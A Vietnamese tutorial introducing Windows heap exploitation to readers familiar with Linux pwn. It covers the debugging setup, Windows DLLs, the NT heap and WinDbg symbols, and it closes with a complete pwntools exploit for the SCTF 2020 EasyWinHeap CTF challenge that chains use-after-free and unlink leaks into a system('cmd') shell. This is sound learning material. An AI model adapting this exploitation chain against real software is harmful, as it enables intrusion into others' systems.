

Windows Pwn cho Linux Pwn
-


Mới bắt đầu exploit trên windows, mình thấy khá khó, tìm kiếm các bài Pwn về windows thì khá ít, và không có mấy tài liệu hướng dẫn. Tình cờ mình biết được 1 bài được viết bằng tiếng Trung nói về cách Pwn trên Windows cho người rành về Pwn trên Linux, nên giờ mình dựa vào đó và viết lại bằng tiếng Việt cho các bạn dễ hiểu.

# Đối tượng:
Bài viết dành cho những ai đã biết về các kĩ thuật Pwn trên Linux nhưng hoàn toàn không biết gì về Pwn trên Windows. 
# Kiến thức có được trong bài viết:
+ Biết cách build một Pwn test trên môi trường Windows (các công cụ gồm socat, pwntools, IDA).
+ Nguyên tắc hoạt động của tiến trình Windows user mode và một số công cụ để luyện tập.
+ Phương thức cơ bản của Windows heap management.

## File luyện tập: [`sctf_EasyWinHeap.zip`](sctf_EasyWinHeap.zip)
## Hệ điều hành: `Windows 7 sp1`
# Thiết lập môi trường:
+ Khác với winpwn: pwntools dành cho Windows (mini), chúng ta vẫn sẽ sử dụng pwntools để giải quyết [`EasyWinHeap`](sctf_EasyWinHeap.zip), mặc dù pwntools không sử dụng trực tiếp trên Windows được, chúng ta sẽ sử dụng socat để remote.
  + [`Socat for windows`](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/)
  + [`socat 1.7.3.2 for Windows`](https://www.cybercircuits.co.nz/web/blog/socat-1-7-3-2-for-windows)
  + Hướng dẫn sử dụng socat trên Windows: [`Link 1`](https://github.com/datntsec/H-ng-d-n-s-d-ng-socat-tr-n-windows) or [`Link 2`](https://juejin.im/post/6844903954438963207)
  Để cho tiện thì mình sẽ [`thiết lập biến môi trường cho socat`](https://github.com/datntsec/H-ng-d-n-s-d-ng-socat-tr-n-windows#2-thi%E1%BA%BFt-l%E1%BA%ADp-enviroment), sau này dùng thì chỉ việc gọi lệnh socat trong cmd là dùng được, khỏi phải dẫn đường dẫn trực tiếp, ví dụ như lệnh sau ta sẽ chạy file `EasyWinHeap.exe` với `socat`:
  ``` 
  socat tcp-listen:8888,fork EXEC:EasyWinHeap.exe,pipes &
  ```
  Sau khi chạy socat thành công, khi có một kết nối đến, nó sẽ chạy chương trình EasyWinHeap.exe trên một tiến trình mới, ta chỉ việc đính kèm tiền trình này vào `IDA` (Pro) để tiến hành `debugging`. Ngoài ra, nếu bạn sử dụng pwntools script để giải, bạn có thể gọi thêm `raw_input` sau khi thực hiện remote và kết nối thành công. Việc này giúp cho đoạn script sẽ không tiếp tục gửi data, còn socat thì đã bắt đầu tiến trình nhưng IDA sẽ không bỏ lỡ breakpoint khi đính kèm tiền trình và. Ví dụ:
  ``` python
  from pwn import *
  context.log_level = 'debug'
  io = remote("10.10.10.137",8888)

  sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
  add         = lambda size           	  :  (sla("option >\r\n", '1'),sla("size >\r\n", str(size)))

  raw_input()
  add(1)
  io.interactive()
  ```
  Đoạn script bên trên sẽ thiết lập một kết nối với socat, socat sẽ chạy EasyWinHeap.exe ở một tiến trình mới, lúc này ta chỉ việc mở IDA chọn `Debugger` > `Attach` > `Local Windows Debugger` sau đó chọn process ID tương ứng với tiên trình đang chạy bởi socat:
  
  
  

  Click `continue` or `F9` để chương trình tiếp tục chạy, Sau đó nhập input vào đoạn script đang chạy tại lệnh `raw_input`, sau đó lệnh add(1) sẽ được thực hiện, Tại đây, IDA sẽ bắt lấy breakpoint bạn đã đặt trước đó, và bạn có thể debug bình thường :))
  
  **Ưu điểm khi kết hợp 3 công cụ: socat+pwntools+IDA:**
    + No need to change the pwntools environment
    + IDA dynamic source code level debugging
    
  **Nhược điểm khi kết hợp 3 công cụ: socat+pwntools+IDA:**
    + For example, the _HEAP structure cannot be directly parsed and viewed (need to import the pdb file)
    + Debug breakpoints and debugger startup cannot be written in the script
    
  Tất nhiên, thay vì sử dụng socat, ta cũng có thể sử dụng một debugger khác để debug

# Tiến trình hoạt động như thế nào?
  Phần này chủ yếu tập trung vào process memory space và những thông tin liên quan đến dynamic link libraries
  Tiến trình được quản lý bởi hệ điều hành, nếu ta muốn biết những thông tin liên quan đến tiến trình trong tiến trình, ta phải cung cấp giao diện và đông ý để người dùng xem nó. Khác với Linux, ta có thể xem thông tin của tiến trình thông qua tệp hệ thống giả `proc` mà nó cung cấp. Tệp hệ thống giả `proc` cũng là một cách để người dùng tương tác với nhân (`kernel`) hệ điều hành không chỉ qua việc gọi system call. Ví dụ, chúng ta có thể kiếm tra cách bố trí bộ nhớ của tiến trình qua `/proc/pid/maps`. Trong các vấn đề về `pwn`, ngoài tệp tin binary, thường có thêm hai tệp được ánh xạ đến bộ nhớ tiến trình: `libc.so` và `ld.so`.
  Vậy, không có proc như trên linux, làm sao ta biết được các thông tin liên quan đến một tiến trình? Trên windows có một thứ để lấy thông tin tiến trình `Windows API`, tuy nhiên không đòi hòi ta phải biết dùng nó, ta có thể sử dụng 2 công cụ sau để hỗ trơ:
  + `Process Explorer`: một công cụ quản lý cung cấp thông tin chi tiết hơn về tiến trình.
  + `VMMap`: công cụ này giúp ta có thể xem cách bố trí bộ nhớ của một chương trình.
  Ngoài ra `winpwn` trong `vmmap` cũng cung cấp một công cụ command-line, tuy nhiên nó không thực sự good.

  Sử dụng 2 công cụa trên để hiểu về tiến trình trên windows, ta viết một đoạn code `c`, biên dịch nó (có thể dùng `gcc` qua việc cài đặt [MinGW](http://www.mingw.org/):

  ``` c
  # include <stdio.h>
  int main(){
	int a;
	scanf("%d",&a);
  }
  ```
  Chạy chương trình trên windows bằng cách double click chuột vào file binary hoặc dùng cmd để mở, sau đó sử dụng `Process Explorer` và `VMMap` để quan sát: 

  

  Trong hình trên tôi sử dụng cmd để mở tiến trình, vì vậy mà trong `Process Explorer` tiến trình cha của `test.exe` là `cmd`, nếu tôi sử dụng double click vào file `exe` đẻ chạy chương trình thì tiến trình cha của nó sẽ là `explorer.exe`:

  

  Tiếp đến là một vài thông tin trong `VMMap` của tiến trình:
  + 8 dynamic link library được load, tuy nhiên chúng ta chỉ quan tâm đến 5 file sau: `kernel32`, `ntdll`, `mscvrt`, `KernelBase`, `apisetschema`.
  + The heap space.
  + Không có ASLR.

  

  5 dynamic link library cho thấy sự phức tạp hơn trên so với Linux, đối với `scanf` trên Linux dùng `libc.so`, sau đó gọi system call trong kernel để thực thi. Nhung Windows là mã nguồn đóng, nó không cho phép ta dùng API được nó cung cấp thông qua việc gọi trực tiếp system call. Vì vậy nó dùng các dynamic link library (`kernel32`, `ntdll`, `mscvrt`) để tương tác với kernel:
  + `mscvrt`: là Microsoft C runtime library, nó tương tự như libc trên Linux. ([source](https://github.com/changloong/msvcrt))
  + `kernel32`: triển khai Windows API.
  + `ntdll`: gọi system call 
  Tham khảo thêm hình bên dưới và từ slide của [`atum`](https://github.com/A7um/slides/blob/master/2017/WinPWN.pdf) và [`Angel Boy`](https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version)

  

  `KernelBase` và `apisetschema` tham khảo thêm tại:
  + [Kernel32.dll vs Kernelbase.dll](https://github.com/tklengyel/drakvuf/issues/639)
  + [What is the difference between kernelBase.dll and Kernel32.dll](https://reverseengineering.stackexchange.com/questions/20175/what-is-the-difference-between-kernelbase-dll-and-kernel32-dll)
  + [New Low-Level Binaries](https://docs.microsoft.com/zh-cn/windows/win32/win7appqual/new-low-level-binaries?redirectedfrom=MSDN)
  + [Hook principle](https://zhuanlan.zhihu.com/p/38339756)
  + [In-depth analysis of api-ms-* series of dynamic link libraries](https://xz.aliyun.com/t/7019)

  Về cơ bảng `Kernelbase` sẽ là tầng trung gian giữa `kernel32` và `ntdll`, `apisetschema` là một DLL thực hiện cơ chế chuyển tiếp. Rất ít tài liệu hay câu hỏi liên quan đến những vấn đề này, bởi vì không có bất cứ tài liệu chính thức nào từ Microsoft về cách triển khai dynamic link library dành cho developer khi nó không thật sự cần thiết (developer chỉ cần gọi hàm API để sử dụng, không cần biết nó hoạt động thế nào). Tuy nhiên ta có thể xem file DLL và đọc documents của các API, các file DLL ta có thể lấy tại:
  + [Wiki Dll](https://wikidll.com/)
  + [The role and purpose of each dll file in Windows 7](https://www.cnblogs.com/findumars/archive/2013/06/11/3132234.html)
  + [Microsoft Windows library files](https://en.wikipedia.org/wiki/Microsoft_Windows_library_files)
  + [Windows 7 DLL File Information](http://www.win7dll.info/)
  + [Windows 8 DLL File Information](http://www.nirsoft.net/dll_information/windows8/)
  + [Windows 10 DLL File Information](http://windows10dll.nirsoft.net/)
  
  Okay! Giờ triển khai exploit `EasyWinHeap`, ta có được các file sau đây:

  ```
  drwxr-xr-x   9  user  user      288  7 22 12:38 .
  drwxr-xr-x  25  user  user      800  7 22 12:37 ..
  -rwx------@  1  user  user    10240  7  4 02:07 EasyWinHeap.exe
  -rw-------@  1  user  user   649272  7  4 01:11 KERNEL32.dll
  -rw-------@  1  user  user  2079112  7  4 01:11 KERNELBASE.dll
  -rw-------@  1  user  user  1674480  7  4 01:12 ntdll.dll
  -rw-------@  1  user  user  1191512  7  4 01:11 ucrtbase.dll
  -rw-------@  1  user  user    83952  7  4 01:13 vcruntime140.dll
  ```
  
  Chúng ta đã có được các file DLL quen thuộc (đã nói ở trên) `kernel32`, `kernelbase`, `ntdll`. Tuy nhiên file `msvcrt.dll` thì không thấy, thay vào đó ta có thêm 2 file khác là `ucrtbase.dll` và `vcruntime140.dll`. Bạn có thể tham khảo hai file này tại đây:
  + [Which version of VC runtime does the msvcrt.dll and msvcr.dll series correspond to?](https://www.zhihu.com/question/47198606)
  + [vs2015 deployment—the next generation VC runtime library system: the Universal CRT](https://www.cnblogs.com/lidabo/p/7856748.html)
  + [Universal CRT deployment](https://docs.microsoft.com/en-us/cpp/windows/universal-crt-deployment?view=vs-2019)
  
  Có thể hiểu đơn giản `msvcrt.dll` là file chứa các đoạn code đã cũ, Microsoft đã bổ sung các đoạn code mới vào file `ucrtbase.dll`. Ngắn gọn thì cả 3 file `msvcrt.dll`, `ucrtbase.dll` và `msvcrxxx.dll` đều giống file `libc.so`, chỉ khác biệt trong cơ chế sử dụng dynamic link library giữa Windows và Linux. Tham khảo sự khác nhau giữa 2 cơ chế này tại [The difference between ELF and PE files](https://github.com/datntsec/The-difference-between-ELF-and-PE-files)
  
  Thực tế thì khi biên dịch một chương trình được liên kết động, cần phải cho trình biên dịch biết:
    1. Dynamic library mà chúng ta sử dụng là gì.
    2. Ta cần chắc chắn các function hoặc data mà ta sử dụng trong chương trình sẽ có trong thư viện đó.
  Trên linux, `.so` sẽ được sử dụng tại thời điểm biên dịch và khi runtime. Còn trên windows, `.lib` được sử dụng tại thời điểm biên dịch, `.dll` được sử dụng tại runtime. Hiểu đơn giản, windows chia chức năng tương tự như `.so` trên linux thành hai file để sử dụng. File PE cũng chỉ chứa tên file Dll, không chứa path, Windows sẽ tự tìm kiếm dll theo các thiết lập trước (xem thêm tại: [Dynamic-Link Library Search Order ](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN)), thư mục hiện tại chứa file PE cũng là một path để tìm kiếm, 

# Inspection and analysis
  Ta đã biết `checksec`của `pwntools` trên linux, dùng để kiểm tra các cờ bảo vệ trong file ELF. Trong file PE cũng có các bit để đánh dấu flag tương tự, ta có thể sử dụng script [checksec.py](https://gist.github.com/apogiatzis/fb617cd118a9882749b5cb167dae0c5d) và python3 để kiểm tra flag trong file PE. Ngoài ra cần cài đặt thêm hai thư viện `lief` và `colorma`, tham khảo thêm về các flag tại [Linux and Windows protection mechanisms](https://tearorca.github.io/Linux%E5%92%8CWindows%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/#0x03dep)
  ``` python
  ➜  python3 checksec.py EasyWinHeap.exe 
  ASLR: True
  SafeSEH: False
  DEP: True
  ControlFlowGuard: False
  HighEntropyVA: False
  ```

  Ta có thể thấy ASLR (Address space layout randomization ) và DEP (Data Execution Protection) được bật. Ngoài ra, liên quan đến các cơ chế bảo vệ này, liệu ta có thể bật tắt cơ chế qua việc thay đổi các bit trong file PE hoặc liệu nó có liên quan đến phiên bản Windows hay không? Ta có thể tìm hiểu nó qua việc tham khảo thêm từ các sách về security hay các slide hoặc bài báo... 

  Bước tiếp theo, ta sẽ phân tích file binary để xem cách nó hoạt động và tìm kiếm lỗ hỏng: Chương trình chỉ sủ dụng hàm main là chính, nó không chia thành các hàm để gọi các chức năng người dùng nhập vào. Khi người dùng nhập vào `1` nó sẽ alloc heap ở index tiếp theo (ta không chủ động chọn index để tạo). Nhìn vào code ta có thể dễ dàng thấy ở hàm free bị lỗi UAF (use after free) do không hề gán NULL vào mảng đã lưu heap. Ngoài ra chương trình cũng mắc lỗi heap overlow khi tính toán sai về kích thước của heap trong hàm edit. Tương tự như việc sử dụng `malloc()` và `free()`. Windows API sẽ dùng:
  ``` c
  HeapCreate(1u, 0x2000u, 0x2000u);
  HeapAlloc(hHeap, 9u, 0x80u);
  HeapFree(hHeap, 1u, *(chunk80 + 8 * *v21 + 4));
  ```
  Tham khảo thêm tại tài liệu chính thức từ Microsoft [Win32 API Heapapi.h Overview](https://docs.microsoft.com/en-us/windows/win32/api/heapapi/). Trong file thực thi, ta thấy được 3 hàm với các tham số như trên, trong đó có một tham số là `FLAG`, theo tài liệu từ Microsoft thì FLAG ở trên sẽ là:
  ``` c
  HEAP_NO_SERIALIZE  0x00000001
  HEAP_ZERO_MEMORY   0x00000008
  ```

  `HEAP_NO_SERIALIZE` sẽ nói rằng quyền truy cập vào heap không được phép, có thể xem rõ hơn tại mục giải thích về `flOptions` trong `HeapCreate` của Microsoft, chủ yếu nó được dùng để kiểm soát việc truy cập đa luồng đến heap. Nếu cờ này được bật, [Low-fragmentation Heap (LFH)](https://docs.microsoft.com/en-us/windows/win32/memory/low-fragmentation-heap) sẽ không thể kích hoạt cho heap đó. Ngoài ra, Microsoft cũng cung cấp tài liệu sử dụng [malloc](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/malloc?view=vs-2019), [free](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/free?view=vs-2019) trên Windows.

# Windows heap
  Mấu chốt nằm ở đây, ta đã biết được 2 lỗ hỏng UAF và heap overlow, hai lỗi này là một trong những lỗ hỏng tất yếu trên heap, ta đã biết được một vài cách khai thác trên Linux như: 
    1. unsorted bin leak libc
    2. fastbin/tcache double free
    3. unlink
    4. …
  Các lổ hỏng trên là do lỗi logic của ptmalloc trong glibc, nhưng trên windows, trình quản lý heap (heap manager) không phải là ptmalloc, mà là một trình quản lý heap riêng của Microsoft. Tuy nhiên những cách khai thác lỗ hỏng ở trên vẫn có thể sử dụng được 
  ## Similar
    Hình dưới đây là từ [slide](https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version) của AngelBoy, mô tả sự quản lý heap trên Windows:

    `, `Heap block with header information (chunk) structure` tương tự như `ptmalloc`. 
    Vậy trình quản lý heap hoạt động như thế nào? Thật không may là Microsoft không cung cấp thông tin này, tuy nhiên chúng ta có thể tìm thấy một vài thông tin liên quan trong các tài liệu của Microsoft:
    + [Memory Management](https://docs.microsoft.com/en-us/windows/win32/memory/memory-management).
    + [Heap Functions](https://docs.microsoft.com/en-us/windows/win32/memory/heap-functions).
    + [Low-fragmentation Heap](https://docs.microsoft.com/en-us/windows/win32/memory/low-fragmentation-heap).

  ## Lịch sử thay đổi
    Theo thời gian, các phiên bản libc liên tục được nâng cấp, các chi tiết trong ptmalloc cũng thay đổi, điều này cũng xảy ra đối với trình quản lý heap trên Windows. Heap sử dụng cho win95, win98 sẽ khác xa so với heap trên windows 10 (gần nhất thì heap win7 và win10 cũng đã có sự khác nhau)
    Một trong các cuốn sách nói chi tiết về Windows heap là "0day" (sách China). Trong [chương V](https://blog.csdn.net/Ga4ra/article/details/90110653), tác giả chia cơ chế quản lý heap trên windows 7 thành 3 giai đoạn, trong đó giai đoạn đầu tiên được tác giả giải thích khá chi tiết mặc dù nó tương đối dễ và nó không còn phù hợp với xu hướng hiện tại của hệ điều hành Windows. Tuy một vài kĩ thuật được đề cập trong "0day" được xem là lạc hậu, nhưng vẫn còn một số hệ thống phù hợp để sử dụng các phương thức tấn công đó. Có thể tham khảo thêm một số tài liệu khác:
    + [Windows 10 Nt Heap Exploitation](https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version).
    + [Heap structure and unlink analysis under Windows 10](https://bbs.pediy.com/thread-246570.htm).
    + [Windows 10 segment heap structure](https://blog.csdn.net/qq_44728033/article/details/105520777).
    + [Heap overflow exploit on Windows 10](https://www.anquanke.com/post/id/180372).
    
    Các tài liệu trên thật sự khá khác với heap trong "0day" vì nó chủ yếu nói về heap trên windows 10. Tức ở hai giai đoạn còn lại trong "0day" mà tác giả không nói chi tiết về nó. May mắn thay, có một bài báo nói khá chi tiết về hai giai đoạn đó, tác giả bài báo này tham khảo "0day" nên cũng chia heap trên windows thành ba giai đoạn, sau đó bổ sung thêm hai giai đoạn sau. Cấu trúc của bài báo này gồm: giới thiệu cấu trúc heap, lỗ hỏng và phương thức tấn công ở cả ba giai đoạn một cách chi tiết và bao quát.
    + [Research on Generation Principle and Utilization Method of Typical Heap Vulnerability in Windows System](https://www.jianshu.com/p/a853040d2804).
    Sau khi đọc bài báo trên, ta có thể thấy heap hiện tại vẫn đang ở giai đoạn ba được đề cập trong "0day". Bài báo cũng tập trung về việc triển khai cấu trúc heap hiện tại:
    
    ## Cái nhìn đầu tiên về Windbg
    [Heap in Windows](https://kirin-say.top/2020/01/01/Heap-in-Windows/) cũng là một bài viết được tham khảo từ [slide]() của AngelBoy cùng với kinh nghiệm có được trong quá trình debug của tác giả, sử dụng windbg để gỡ lỗi.
    ```
    0:001> dt _heap
    ntdll!_HEAP
       +0x000 Segment          : _HEAP_SEGMENT
       +0x000 Entry            : _HEAP_ENTRY
       +0x010 SegmentSignature : Uint4B
       +0x014 SegmentFlags     : Uint4B
       +0x018 SegmentListEntry : _LIST_ENTRY
       +0x028 Heap             : Ptr64 _HEAP
    ```
    Lệnh `dt _heap` là một lệnh debugging của windbg, dt nghĩa là Display Type, tham khảo thêm lệnh khác tại [Debugging instruction manual](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-commands). Phần được in ra ở trên là cấu trúc heap, nó chứa thông tin về toàn bộ ngăn xếp, tương tự như `ptmalloc` trong `_heap_info`. Như vậy, windbg biết cấu trúc của windows heap, vì vậy ta nên sử dụng windbg, tải và cài windbg tại [Download Debugging Tools for Windows](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools). Đừng ngạc nhiên khi SDK download được cung cấp ở đây, windbg được bao gồm trong sdk, vì vậy chỉ có thể tìm thấy [Windows SDK and emulator archive](https://developer.microsoft.com/en-us/windows/downloads/sdk-archive/) để tải xuống những phiên bản SDK trước đó. Lưu ý rằng: [www.windbg.org](www.windbg.org) là một website riêng, không phải website chính thức. Khi cài đặt windbg, tôi đã thử lệnh `dt _heap`, nhưng nhận được kết quả như bên dưới:
    ```
    0:001> dt _heap
    *** ERROR: Module load completed but symbols could not be loaded for cmd.exe
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\SYSTEM32\wow64cpu.dll - 
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\SYSTEM32\wow64win.dll - 
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\SYSTEM32\wow64.dll - 
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for ntdll.dll - 
    *************************************************************************
    ***                                                                   ***
    ***                                                                   ***
    ***    Your debugger is not using the correct symbols                 ***
    ***                                                                   ***
    ***    In order for this command to work properly, your symbol path   ***
    ***    must point to .pdb files that have full type information.      ***
    ***                                                                   ***
    ***    Certain .pdb files (such as the public OS symbols) do not      ***
    ***    contain the required information.  Contact the group that      ***
    ***    provided you with these symbols if you need this command to    ***
    ***    work.                                                          ***
    ***                                                                   ***
    ***    Type referenced: _heap                                         ***
    ***                                                                   ***
    *************************************************************************
    Symbol _heap not found.
    ```
    Windbg báo rằng không tìm thấy symbol _heap. Liệu thông tin của cấu trúc này có bao gồm trong windbg? Không hản!
    
  ## Debug symbol
    + [Symbols for Windows debugging (WinDbg, KD, CDB, NTSD)](https://docs.microsoft.com/vi-vn/windows-hardware/drivers/debugger/symbols).
    Nó bảo rằng windbg cần được cấu hình tệp dll symbol source tương ứng để phân tích cấu trúc tương ứng. Ta có thể vào website chính thức của Microsoft và lấy tệp symbol để cài đặt cho windbg bằng cách dùng lệnh: 
    ```
    C:\symbols;SRV*C:\symbols*http://msdl.microsoft.com/download/symbols
    ```
    tham khảo thêm tại: 
    + [Win10 windbg cannot download symbolic links, please help](https://bbs.pediy.com/thread-256958.htm).
    + [Windbg notation problem](https://gclxry.com/problem-with-windbg-symbols/).
    
    Sau đó ta sẽ có được các tệp pdb tương ứng trong thư mục `C:\symbols`. Có thể thấy các thư mục `ntdll.pdb` (32 bit là wntdll.pdb). Và tất nhiên cũng sẽ có các pdb khác của dynamic link library được tải xuống thành công.
    
    ```
    C:\symbols
    λ dir
     Volume in drive C has no label.
     Volume Serial Number is 28AD-4B57
    
     Directory of C:\symbols
    
    07/27/2020  11:10 AM    <DIR>          .
    07/27/2020  11:10 AM    <DIR>          ..
    07/27/2020  04:40 AM    <DIR>          api-ms-win-core-file-l1-2-0.pdb
    07/27/2020  04:40 AM    <DIR>          api-ms-win-core-file-l2-1-0.pdb
    07/27/2020  04:40 AM    <DIR>          api-ms-win-core-localization-l1-2-0.pdb
    07/27/2020  04:40 AM    <DIR>          api-ms-win-core-processthreads-l1-1-1.pdb
    07/27/2020  04:39 AM    <DIR>          api-ms-win-core-synch-l1-2-0.pdb
    07/27/2020  04:40 AM    <DIR>          api-ms-win-core-timezone-l1-1-0.pdb
    07/27/2020  04:39 AM    <DIR>          api-ms-win-crt-convert-l1-1-0.pdb
    07/27/2020  04:39 AM    <DIR>          api-ms-win-crt-heap-l1-1-0.pdb
    07/27/2020  04:39 AM    <DIR>          api-ms-win-crt-locale-l1-1-0.pdb
    07/27/2020  04:39 AM    <DIR>          api-ms-win-crt-math-l1-1-0.pdb
    07/27/2020  04:40 AM    <DIR>          api-ms-win-crt-runtime-l1-1-0.pdb
    07/27/2020  04:39 AM    <DIR>          api-ms-win-crt-stdio-l1-1-0.pdb
    07/27/2020  04:40 AM    <DIR>          api-ms-win-crt-string-l1-1-0.pdb
    07/27/2020  11:10 AM    <DIR>          ntdll.pdb
    07/27/2020  04:29 AM                 0 pingme.txt
    07/27/2020  04:39 AM    <DIR>          ucrtbase.pdb
    07/27/2020  04:40 AM    <DIR>          vcruntime140.i386.pdb
    07/27/2020  04:40 AM    <DIR>          wkernel32.pdb
    07/27/2020  04:40 AM    <DIR>          wkernelbase.pdb
    07/27/2020  04:29 AM    <DIR>          wntdll.pdb
                   1 File(s)              0 bytes
                  21 Dir(s)  38,554,374,144 bytes free
    ```
    
    nếu ta cố gắn sử dụng command để xem file pdb, ta sẽ thấy được:
    ```
    C:\symbols\ntdll.pdb\6192BFDB9F04442995FFCB0BE95172E12
    λ file ntdll.pdb
    ntdll.pdb: MSVC program database ver 7.00, 1024*2363 bytes
    ```
    Có thể thấy, file chứa định dạng [Program database](https://en.wikipedia.org/wiki/Program_database). Nói ngắn gọn, file này lưu trữ các thông tin symbol của dll tương ứng, có thể bao gồm nhiều tên biến, tên hàm, thông tin cấu trúc và thậm chí cả số dòng của mã nguồn. Đến đây, chúng ta đã có thể sử dụng `dt _heap`. Và nếu bạn muốn sử dụng IDA là công cụ chính để debug, bới giao diện nó thân thiện chẳng hạn, bạn sẽ tự hỏi rằng IDA có load được pdb file? Câu trả lời là có, nhưng nếu sử dụng IDA để load `ntdll.dll` khi bạn treo proxy global, bạn sẽ thấy:

    
    
    Bạn không cần phải import tất cả, IDA sẽ đi đến server của Microsoft để tải file pdb và thể hiện nó. Bạn sẽ thấy IDA sẽ thể hiện cả thông tin về tên hàm lẫn cấu trúc của nó.
    
    
    
    Nhưng trong quá trình dynamic debugging, chúng ta load file PE của chương trình mục tiêu vào, IDA không tự động load file pdb of ntdll. Tuy nhiên, ta có thể chọn thủ công bằng cách import pdb đã tải xuống by IDA hoặc gdb bằng cách chọn `File` > `Load file` > `PDB file`. IDA sẽ tiến hành hoàn thành load symbol cho dynamic library. Sau đó ta tiến hành nhấn phím y hoặc click chuột phải chọn `Convert to struct/Edit` > `_HEAP`.
    
    
    
    Có một website rất thú vị [vergiliusproject](https://www.vergiliusproject.com/), cung cấp các thông tin về cấu trúc được Microsoft cung cấp như [heap](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2004%2020H1%20(May%202020%20Update)/_HEAP) và sắp xếp theo trình tự thời gian, hệ điều hành...
    
# Exploit EasyWinHeap
  Tôi không nói về cách giải bài này, tuy nhiên bạn có thể tham khảo từ một số write up sau:
  + [SCTF-EasyWinPwn](http://showlinkroom.me/2020/07/16/SCTF-EasyWinPwn/).
  + [SCTF 2020 PWN](https://sh1ner.github.io/2020/07/07/SCTF-2020-PWN/).
  + [SCTF 2020 PWN part write up](https://eqqie.cn/index.php/laji_note/1117/#EasyWinHeap).
  + [SCTF 2020 WriteUp](https://zhuanlan.zhihu.com/p/162817999).
  Cách giải bài này tương tự như trên Linux, bằng cách khai thác UAF và overlow (tôi nghĩ bạn đã biết). Một vài chi tiết khai thác trên Windows sẽ khác so với Linux, bạn có thể tham khảo thêm tại:
  + [CTF Wiki unlink](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unlink-zh/).
  + [Research on Generation Principle and Utilization Method of Typical Heap Vulnerability in Windows System](https://www.jianshu.com/p/a853040d2804).
  Đọc hai bài viết trên, cùng với xem comment để lại trong mã khai thác dưới đây, tôi nghĩ đã đủ để bạn hiểu và giải bài này:
  ``` python
  from pwn import *
  #context.log_level = 'debug'
  ip = "10.10.10.137";port = 8888
  io = remote(ip,port)
  
  sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
  add         = lambda size           	  :  (sla("option >\r\n", '1'),sla("size >\r\n", str(size)))
  show        = lambda index                :  (sla("option >\r\n", '3'),sla("index >\r\n", str(index)))
  edit        = lambda index,data           :  (sla("option >\r\n", '4'),sla("index >\r\n", str(index)),sla("content  >\r\n", data))
  free        = lambda index                :  (sla("option >\r\n", '2'),sla("index >\r\n", str(index)))
  uu32        = lambda data                 :  u32(data.ljust(4, b'\0'))
  
  # UAF to leak heap
  while(1):
      add(32);add(32);add(32)                                         # free block0 or block1, the fd is point to the largest free chunk, it can success leak the heap_base
      free(1);show(1)                                                 # can't free block2 to leak heap_base, because it will merge to the largest free chunk. 
      heap_base = uu32(io.recvuntil("\r\n", drop=True)[:4])-0x630     # and the fd will point to heap_base+0x00c4, it contains NULL byte.
      if heap_base > 0x1000000 :                                      # if the heap_base less than 4 byte, the next step to leak image_base can't success
          break                                                       # because when we leak image_base, before the image_base is the heap_addr 
      io.close();io = remote(ip,port)
  
  log.warn("heap_base:" + hex(heap_base))
  list_addr = heap_base + 0x578
  block0    = list_addr
  block1    = list_addr + 8
  
  # use unlink to make a loop and leak image_base
  edit(1,p32(block1)+p32(block1+4))                                   # *(block1 + 4) = block1 + 4 , when show block1, it can leak data in list
  add(32);show(1);                                                    # add(32) or free(0) both can trigger unlink
  io.recv(4)                                                          # 4 byte heap_addr,if it's only 3 byte, it will be stop to print due to NULL byte
  image_base = uu32(io.recvuntil("\r\n", drop=True)[:4])-0x1043
  log.warn("image_base:" + hex(image_base))
  
  # use loop to leak ucrt
  puts_iat = image_base + 0x20c4
  edit(1, p32(puts_iat)+p32(0)+p32(block0));show(1)                   # modify block2content point to block0
  ucrt_base = u32(io.recv(4))-0xb89f0
  log.warn("ucrt_base:" + hex(ucrt_base))
  system = ucrt_base+0xefda0
  
  # modify func pointer to system and tigger it
  edit(0, 'cmd\x00')                                                  # normal write, add "cmd" to block0content
  edit(2, p32(system)+p32(heap_base+0x600))                           # modify block0 func to system and repair block0content
  show(0)                                                             # trigger system(cmd)
  io.interactive()
  ```
# Tóm tắt và so sanh sự khác nhau giữa Pwn trên Linux và Windows:
  |				|Windows					|Linux			|
  |-----------------------------|-----------------------------------------------|-----------------------|
  |Debugger			|IDA , windbg , x64dbg , ollydbg , gdb		|IDA , gdb		|
  |Problem solving environment	|pwntools + socat + IDA / winpwn / pwintools	|pwntools		|
  |Process tool			|Process Explorer , VMMap			|ps , procfs		|
  |C runtime library		|ucrtbase.dll					|libc.so		|
  |Security Mechanism		|ASLR, DEP, SafeSEH, ControlFlowGuard		|PIE, NX, Canary, RELRO	|
  |Security check		|checksec.py					|checksec		|
  |Heap manager			|Windows memory allocator ( ntdll.dll )		|ptmalloc ( libc.so )	|
  |Heap structure		|_HEAP						|_heap_info		|
  |Free list			|FreeLists					|unsorted bin		|
  |leak				|heap_addr					|libc_addr		|
